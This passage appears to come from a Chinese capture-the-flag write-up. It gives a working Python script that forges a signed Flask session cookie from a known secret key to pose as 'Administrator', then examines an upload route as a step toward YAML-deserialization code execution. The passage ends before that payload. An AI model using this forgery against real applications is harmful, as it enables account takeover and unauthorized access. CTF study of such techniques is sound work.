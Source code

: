 看到了session的格式，直接利用加密脚本进行伪造，我只取了核心部分

当然Github上的比较完整：https://github.com/noraj/flask-[session](https://so.csdn.net/so/search?q=session&spm=1001.2101.3001.7020)-cookie-manager

```python
import requests
import ast
from flask.sessions import SecureCookieSessionInterface

secret_key = 'engine-1'


class MockApp(object):

    def __init__(self, secret_key):
        self.secret_key = secret_key

def session_cookie_encode(secret_key, session_cookie_structure):
    try:
        app = MockApp(secret_key)
        session_cookie_structure = dict(ast.literal_eval(session_cookie_structure))
        si = SecureCookieSessionInterface()
        s = si.get_signing_serializer(app)
        return s.dumps(session_cookie_structure)
    except Exception as e:
        return "[Encoding error]{}".format(e)


if __name__ == "__main__":
    payload = '''{"updir":"static/uploads/4b3cf1ffc9224f4d830c5a29db854d15","user":"Administrator"}'''
    res = session_cookie_encode(secret_key,payload)
    print(res)
    #url = 'http://eci-2ze74l0esvdjrc6llom3.cloudeci1.ichunqiu.com:8888/'
    #requests.get(url=url)
    #files = {'file': open('2.txt', 'rb')}
    #r = requests.post(url=url + '/upload', files=files,cookies={'session': res})
    #print(r.text)
```

伪造成功，就可以直接进入`upload`路由，开始看后面的python代码逻辑

第一遍读完，我们的利用点就是后面那个`yaml`反序列化打`RCE`

先看`upload`路由

```python
# 上传的一个目录下：
filepath = f"{session.get('updir')}/{md5(filename.encode()).hexdigest()}.rar"

# unrar解压下的一个目录，在该目录下会生成解压后的yaml文件
extractdir = f"{session.get('updir')}/{filename.split('.')[0]}"

# 打开一个yaml文件，然后直接写入我们不需要的一个yaml数据，而且是写入到fileinfo目录下
rarDatas = {'filename': filename, 'dirs': [], 'files': []}
with open(f'fileinfo/{md5(filename.encode()).hexdigest()}.yaml', 'w') as f:
    f.write(yaml.dump(rarDatas))
```
